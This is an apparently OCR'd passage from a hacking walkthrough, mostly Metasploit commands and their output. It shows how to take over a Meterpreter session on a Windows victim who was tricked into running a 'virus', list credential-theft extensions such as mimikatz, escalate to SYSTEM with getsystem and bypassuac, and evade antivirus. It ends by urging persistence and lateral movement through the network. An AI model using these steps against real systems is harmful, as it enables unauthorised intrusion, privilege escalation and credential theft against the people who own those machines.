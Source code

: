 G> To interact with your shell:
G>
G> `msf exploit(handler) > sessions -i 6`  
G> `[*] Starting interaction with 6...`
G>
G> `meterpreter >`
G>
G> Check to see which user you are running with, this will be the user that ran the virus. If you convinced your target to run as admin, then you will be able to elevate your privileges very easily, otherwise you will have to try one of the other seemingly infinite techniques.
G>
G> `meterpreter > getuid`  
G> `Server username: <target-host>\kim`
G>
G> `meterpreter > pwd`  
G> `C:\Users\kim\Desktop`
G>
G> Check which extensions we have loaded:
G>
G> `meterpreter > use -l`  
G> `espia`  
G> `extapi`  
G> `incognito`  
G> `kiwi`  
G> `lanattacks`  
G> `mimikatz`  
G> `powershell`  
G> `priv`  
G> `python`  
G> `sniffer`  
G> `stdapi`  
G> `winpmem`
G>
G> If `priv` was not in the list, try load it with `use priv`.  
G> Let us try for system, if this is not successful, try running `run bypassuac` first:
G>
G> `meterpreter > getsystem -h`  
G> `Usage: getsystem [options]`
G>
G> `Attempt to elevate your privilege to that of local system.`
G>
G> `OPTIONS:`
G>
G> `  -h        Help Banner.`  
G> `  -t <opt>  The technique to use. (Default to '0').`  
G> `    0 : All techniques available`  
G> `    1 : Named Pipe Impersonation (In Memory/Admin)`  
G> `    2 : Named Pipe Impersonation (Dropper/Admin)`  
G> `    3 : Token Duplication (In Memory/Admin)`
G>
G> `meterpreter > getsystem`  
G> `...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).`  
G>
G> `meterpreter > getuid`  
G> `Server username: NT AUTHORITY\SYSTEM`
G>
G> And no issue with Anti-Virus at all.  
G> That is the easy part done, now you would need to setup persistence, and start moving laterally through the network.
G>
G> `meterpreter > exit`  
G> `[*] Shutting down Meterpreter...`
G>
G> `[*] <target-ip> - Meterpreter session 6 closed.  Reason: User exit`